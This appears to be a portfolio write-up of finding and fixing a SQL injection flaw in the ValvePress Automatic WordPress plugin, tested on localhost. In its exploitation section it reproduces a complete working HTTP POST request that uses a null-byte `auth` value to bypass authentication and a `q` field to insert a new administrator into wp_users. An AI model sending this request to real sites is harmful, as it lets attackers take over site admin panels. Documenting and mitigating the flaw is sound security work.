 # Discovering and Mitigating SQL Injection Vulnerabilities in the ValvePress Automatic WordPress Plugin

**Year**: *2025*

**Skills**: *SQL Injection, WordPress, Security Assessment, Plugin Development, Vulnerability Discovery, Burp Suite, Kali Linux, WPScan, OWASP ZAP, Web Application Security, Penetration Testing, Secure Coding, Prepared Statements, Authentication Bypass, PHP, Database Security, Network Security, Ethical Hacking, Threat Modeling, Vulnerability Mitigation, Bug Bounty, Web Security Best Practices, Security Testing, Application Security, Cybersecurity, Exploit Development.*

## 🛠️ Project Overview
The **ValvePress Automatic Plugin** pulls content from various sources like RSS feeds, social media, and APIs for automatic posting. However, during a security assessment, I uncovered a critical vulnerability in the plugin’s code, specifically related to how it handled SQL queries. 🔍

## 💥 Identifying the Vulnerability
Using a controlled test environment with **Kali Linux**, **WPScan**, **WPBullet**, and **OWASP ZAP**, I pinpointed an SQL injection flaw in the `csv.php` file within the plugin’s `wp-automatic/inc` folder. The flaw existed due to improper handling of the `$auth` parameter, which allowed us to inject arbitrary SQL queries and bypass authentication. 💻

<img src="/portfolio/assets/projects/vulnerability_assessment/fig1.png" class="md-img" />

## 💣 Exploitation Process
- **Intercepting Requests**: Using **Burp Suite**, I intercepted HTTP POST requests containing the `$auth` parameter. 🕵️‍♂️

<img src="/portfolio/assets/projects/vulnerability_assessment/fig2.png" class="md-img" />

- **Injecting SQL**: By modifying the `$auth` parameter, I injected SQL queries to escalate privileges and add an administrative user to the database. 🔓
    ```
    POST http://localhost/wordpress/wp-content
    /plugins/wp-automatic/inc/csv.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; 
    rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,
    application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Length: 336

    q=INSERT INTO wp_users (user_login, user_pass, user_nicename, 
    user_email, user_url, user_registered, user_status, display_name) 
    VALUES ('inseTQK', '$P$HxfvLR.Te6U9RQFKxgd345dt/7Nk8B/', 'inseTQK', 
    'inseTQK@concordia.com', 'http://168.0.0.1:8080', '2025-03-21 22:12:51', 
    0, 'inseTQK')&integ=298c8ba78748f02877a09f1a1e2006b1&auth=%00
    ```
- **Impact**: This allowed unauthorized access, including full control over the WordPress admin panel. ⚡

*Before Attack:*

<img src="/portfolio/assets/projects/vulnerability_assessment/fig3.png" class="md-img" />

*After Attack:*

<img src="/portfolio/assets/projects/vulnerability_assessment/fig4.png" class="md-img" />

## 🛡️ Mitigation
- **Null Byte Detection**: Added checks to prevent null byte injection. 🚫
- **Secure Password Validation**: Replaced insecure password handling with WordPress’s `wp_check_password()` method. 🔑

<img src="/portfolio/assets/projects/vulnerability_assessment/fig5.png" class="md-img" />

    ```
    21 | if (strpos($auth, "\0") !== false) {
    22 |    echo 'NULL byte detected';
    23 |    exit;
    24 | }
    ```
*After Mitigation:*

<img src="/portfolio/assets/projects/vulnerability_assessment/fig6.png" class="md-img" />

****************************